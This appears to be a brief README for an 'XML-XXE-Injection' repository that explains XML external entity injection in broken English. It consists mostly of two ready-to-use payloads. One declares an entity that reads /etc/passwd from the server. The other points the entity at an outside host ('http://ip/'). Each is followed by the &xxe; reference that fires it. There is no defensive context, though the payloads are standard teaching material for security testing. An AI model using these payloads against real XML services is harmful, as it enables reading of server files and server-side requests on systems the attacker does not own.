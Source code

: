 # XML-XXE-Injection



 # it is work like this 
 
 1. <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ] >
 2. and  we call by this   &xxe;
         or 
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://ip/"> ] >
    &xxe;
